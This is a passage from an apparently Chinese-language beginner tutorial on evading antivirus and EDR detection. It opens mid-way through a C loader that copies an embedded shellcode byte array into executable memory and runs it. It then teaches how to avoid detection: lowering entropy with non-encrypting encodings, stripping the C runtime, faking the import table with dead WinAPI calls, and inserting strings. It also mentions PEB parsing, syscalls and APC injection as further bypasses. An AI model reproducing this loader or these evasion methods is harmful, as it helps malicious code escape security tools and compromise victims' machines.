     0x28, 0x7A, 0x9A, 0xCC, 0xA7, 0xC5, 0xDD, 0x81,
     0xEA, 0xB8, 0x18, 0x4E, 0x21, 0x53, 0xF3, 0xA3,
     0x42, 0xE1, 0x2B, 0x59, 0xD2, 0xD3, 0x9A, 0x90,
     0x21, 0x99, 0xC5, 0xF9, 0x60, 0x18, 0xC2, 0xEE,
     0xCC, 0x0D, 0xCA, 0xFB, 0xF4, 0xB5, 0x32, 0xF3,
     0xC9, 0x80, 0xD0, 0x11, 0xB0, 0xE6, 0x49, 0xDB,
     0xFB, 0x6C, 0xCE, 0xE2, 0xA8, 0x09, 0xC5, 0x4E,
     0xCE, 0x46, 0x46, 0x46, 0xB6, 0xFC, 0x79, 0x31,
     0xB9, 0xDE, 0x94, 0x15, 0x25, 0x61, 0xEA, 0x92,
     0x02, 0x30, 0x3B, 0x7B, 0x5B, 0x10, 0x91, 0xBD,
     0x5E, 0x88, 0x3E, 0x31, 0xF6, 0xA7, 0xCC, 0xF8,
     0x60, 0x26, 0x87, 0x49, 0xE2, 0xC3, 0x8A, 0xA0,
     0x11, 0x89, 0xA5, 0xE2, 0x93, 0x40, 0x4D, 0x0A,
     0x8B, 0x2A, 0xD2, 0xC8, 0x3D, 0xCC, 0x7E, 0x7D,
     0x29, 0x0D, 0x85, 0xBE, 0x67, 0x34, 0xB1, 0x49,
     0x89, 0xC9, 0x42, 0xFA, 0xDC, 0x95, 0x14, 0x38,
     0x5C, 0x19, 0x8A, 0x76, 0xBE, 0xE4, 0x6F, 0x0F,
     0x83, 0xC8, 0x29, 0xF9, 0xA6, 0x2D, 0x29, 0x11,
     0x59, 0x58, 0x06, 0xB7, 0xEF, 0x0E, 0xA6, 0xC6,
     0x1F, 0x45, 0xF4, 0x2A, 0x4B, 0x90, 0x2D, 0x67,
     0x2F, 0x2C, 0x80, 0x1E, 0x5F, 0xF1, 0xCE, 0x8E,
     0xD4, 0x65, 0xB8, 0xD2, 0x84, 0xEF, 0xFD, 0xEA,
     0x41, 0x40, 0x3F, 0x3E, 0x53, 0xDB, 0x61, 0x60,
     0x60, 0x60, 0x60, 0x60, 0x60, 0x60, 0x50, 0x06,
     0x73, 0xFC, 0xFD, 0xFC, 0xFC, 0xFA, 0xBB, 0xE1,
     0xCE, 0xB9, 0xC8, 0xAF, 0xAE, 0x7B, 0x20, 0xAE,
     0xDB, 0x75, 0xA3, 0x92, 0x24, 0x78, 0x8D, 0x0E,
     0x6B, 0x6A, 0x3F, 0x77, 0xF4, 0x20, 0xF0, 0xC0,
     0x36, 0x4A, 0x40, 0x3E, 0x05, 0x05, 0x6E, 0x0B,
     0x2E, 0x45, 0x96, 0x1A, 0x61, 0x0B, 0xEB, 0x30,
     0x61, 0xD4, 0xF0, 0xEF, 0xB4, 0x17, 0x66, 0xC4,
     0x57, 0x71, 0xE4, 0x52, 0x37, 0x4D, 0x0F, 0x45,
     0xFF, 0x5E, 0xEB, 0x04, 0x29, 0x6D, 0x62, 0x17,
     0x4D, 0x0F, 0x4A, 0xED, 0x81, 0x2E, 0xD6, 0x25,
     0x58, 0x49, 0xEB, 0x04, 0xE3, 0xBC, 0x14, 0x3E,
     0x4D, 0x0F, 0x4E, 0xD2, 0x81, 0x6E, 0x04, 0x4A,
     0xAF, 0x8E, 0xF3, 0xEB, 0x04, 0x9D, 0x09, 0x3C,
     0x88, 0xC1, 0x4E, 0x08, 0x02, 0x4D, 0x0F, 0x42,
     0xD2, 0xEB, 0x04, 0x2D, 0x2F, 0x47, 0x9C, 0x81,
     0x46, 0x0C, 0xA3, 0x28, 0x18, 0x2F, 0xFF, 0xE6 };
 
     void* mem = pVirtualAlloc(NULL, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
     if (!mem) {
         printf("内存分配失败
");
         return -1;
     }
 
     pRtlMoveMemory(mem, shellcode, sizeof(shellcode));
 
     ((void(*)())mem)();  // 执行shellcode
 
     return 0;
 }
```

**还有很多办法可以绕过IAT检测如：手动解析 API 地址从PEB 解析 Export Table 获取函数地址、回调函数、syscall、apc注入等这里由于是面向初学的师傅就留着后面单独讲**

### 3. 熵

#### 3.1. 什么是熵

在信息论中，熵是衡量信息不确定性或随机程度的一个指标。

通俗理解就是：

熵越高，内容越随机、越混乱；熵越低，内容越有序、可预测。

杀毒软件/EDR 会检测可执行文件中是否有高熵段（比如 .text 段内大量高熵 shellcode），作为可疑特征，像shellcode加密，函数调用混淆之类的东西，像这种技术本质上是在加密和压缩数据，因此提高了数据的不可预测性/无序性，也就是提高了熵，熵越大，数据就越有可能被混淆或加密，文件也就越有可能是恶意的

#### 3.2. 如何降低熵

##### 3.2.1. 编码

降低熵的一种办法是不使用如aes加密之类会提高熵的加密方式只使用前面提到的sgn+uuid、ipv4/v6、mac编码，因为这些编码具有一定程度的组织和顺序的数据。因此，与具有完全随机字节的二进制数据相比，相似的字节模式将具有较低的熵值

##### 3.2.2. 删除CRT库

CRT（即 C 运行时库）是 C 编程语言的标准接口。 杀毒软件检测特征

* 导入表中包含 msvcrt.dll / ucrtbase.dll
* 使用 \_\_mainCRTStartup 等 CRT 初始化入口
* 包含 C++ 异常处理结构，TLS 回调等

这会暴露你程序是由编译器编译出来的正常 PE 文件，更容易被分析器理解，进而提取出 shellcode 或恶意逻辑。

没有 CRT，就像是「手写汇编」或「Loader」，更接近“原始代码”状态。不过这会导致包含"stdio.h"中的函数无法正常运行不能使用例如printf、strlen、strcat、memcpy这些C的函数，需要我们编写自己的“CRT函数”，直接去github搜或者问gpt即可，这里给给出个示例

```
#include <Windows.h>
  #include <stdio.h>
  #define PRINTA( STR, ... )                                                       
     if (1) {                                                                     
         LPSTR buf = (LPSTR)HeapAlloc( GetProcessHeap(), HEAP_ZERO_MEMORY, 1024 ); 
         if ( buf != NULL ) {                                                     
             int len = wsprintfA( buf, STR, __VA_ARGS__ );                         
             WriteConsoleA( GetStdHandle( STD_OUTPUT_HANDLE ), buf, len, NULL, 
 NULL );     
             HeapFree( GetProcessHeap(), 0, buf );                                 
         }                                                                         
     }
 int main() {
     PRINTA("Hello World ! 
");
     return 0;
  }
```

<https://github.com/vxunderground/VX-API>

默认情况下，在 Visual Studio 中编译应用程序时，“运行时库”选项设置为“多线程 DLL (/MD)”。使用此选项，CRT 库 DLL 会动态链接，这意味着它们在运行时加载。 需要将运行时库选项设置为“多线程（/MT）” 从二进制文件中删除 CRT，以及 IAT 导入函数减少，这可能会因函数功能导入太少或为零而引起怀疑。 尤其是与 API 哈希结合使用，我们需要通过添加不改变程序行为的WinAPI 函数来伪装IAT。比如可以使用NULL 参数来初始化 WinAPI 函数，还可以将它们包含在永远不会执行的 if 语句中

```
int a = 1;
 if (a == 2) {
         unsigned __int64 i = MessageBoxA(NULL, NULL, NULL, NULL);
         i = GetLastError();
         i = SetCriticalSectionSpinCount(NULL, NULL);
         i = GetWindowLongPtrW(NULL, NULL);
         i = IsWindowVisible(NULL);
         i = ConvertDefaultLocale(NULL);
         i = MultiByteToWideChar(NULL, NULL, NULL, NULL, NULL, NULL);
         i = IsDialogMessageW(NULL, NULL);
 }
```

不过现在的编译器都会自动优化，识别刀if条件无法满足他会优化这部分代码不会包含再编译后的程序中，需要在编译器设置中关闭代码优化，或者使用逻辑欺骗编译器正在使用这段代码

##### 3.2.3. 插入英文字符串

可以参考这篇文章的内容<https://cloud.tencent.com/developer/article/2360969>

欢迎建议反馈本文如有不严谨之处或存在技术性错误，欢迎各位师傅批评指正。如有建议或问题，也欢迎在评论区或私信留言交流，共同进步！
